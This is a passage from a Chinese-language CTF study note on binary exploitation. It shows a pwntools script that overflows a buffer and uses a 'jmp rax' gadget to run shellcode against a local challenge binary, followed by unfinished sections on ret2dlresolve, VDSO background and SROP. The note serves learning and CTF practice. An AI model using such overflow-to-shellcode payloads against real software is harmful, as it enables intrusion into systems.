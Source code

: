  在此示例中，当 `vuln()` 函数返回时，`RAX` 寄存器将指向存储在 `buffer` 中的用户输入： 

 使用 `jmp rax`gadget，可以直接跳转到用户输入，而无需知道它的地址： 

 使用 Buffer Overflow 将小工具设置为 return 并跳转到 shellcode

得exp：

```python
from pwn import *

elf = context.binary = ELF('./chall')
p = process()

JMP_RAX = 0x40109c

payload = asm(shellcraft.sh())       

payload = payload.ljust(120, b'A')    

payload += p64(JMP_RAX)               

p.sendline(payload)

p.interactive()
```

## ret2dl

全名ret2dlresolve

（未完待续，太累了）

## ret2VDSO

 VDSO(Virtual Dynamically-linked Shared Object)  它是将内核态的调用映射到用户地址空间的库。那么它为什么会存在呢？这是因为有些系统调用经常被用户使用，这就会出现大量的用户态与内核态切换的开销。通过 vdso，我们可以大量减少这样的开销，同时也可以使得我们的路径更好。这里路径更好指的是，我们不需要使用传统的 int 0x80 来进行系统调用，不同的处理器实现了不同的快速系统调用指令

- intel 实现了 sysenter，sysexit
- amd 实现了 syscall，sysret

 当不同的处理器架构实现了不同的指令时，自然就会出现兼容性问题，所以 linux 实现了 vsyscall 接口，在底层会根据具体的结构来进行具体操作。而 vsyscall 就实现在 vdso 中。

 在 Linux(kernel 2.6 or upper) 中执行 ldd /bin/sh, 会发现有个名字叫 linux-vdso.so.1(老点的版本是 linux-gate.so.1) 的动态文件, 而系统中却找不到它, 它就是 VDSO。  

 除了快速系统调用，glibc 也提供了 VDSO 的支持, open(), read(), write(), gettimeofday() 都可以直接使用 VDSO 中的实现。使得这些调用速度更快。 内核新特性在不影响 glibc 的情况下也可以更快的部署。 

**这个东西还没有遇见到，遇见之后再更新**

## SROP

### 原理：
